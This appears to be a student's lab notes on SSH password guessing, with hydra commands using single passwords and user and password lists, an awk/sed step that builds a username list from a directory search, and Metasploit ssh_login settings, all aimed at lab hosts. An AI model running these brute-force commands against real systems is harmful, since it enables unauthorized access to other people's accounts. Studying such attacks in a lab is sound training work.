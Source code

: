 # Password Guessing Notes

this will be done with hydra

```
hydra -t 4 -l root -p sec504 ssh://127.0.0.1
hydra -t 4 -l sec504 -p sec504 ssh://127.0.0.1
```

WITH PASSWORD LIST

```
hydra -t 4 -l sec504 -P passwords.txt ssh://127.0.0.1
```

WITH USERS LIST

```
hydra -t 4 -L users.txt -p sec504 ssh://127.0.0.1
```

eDirectory server, after copying a big list of users and information

```
awk '{print $3}' searchresult.txt
awk '{print $3}' searchresult.txt | sed 's/@.*//' > eusers.txt
hydra -t 4 -L eusers.txt -P passwords.txt ssh://172.30.0.25
```

with metasploit

```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 127.0.0.1
set username root
set password sec504
set gatherproof false
unset password
set PASS_FILE /home/sec504/labs/passhydra/passwords.txtPASS_FILE => /home/sec504/labs/passhydra/passwords.txt
```
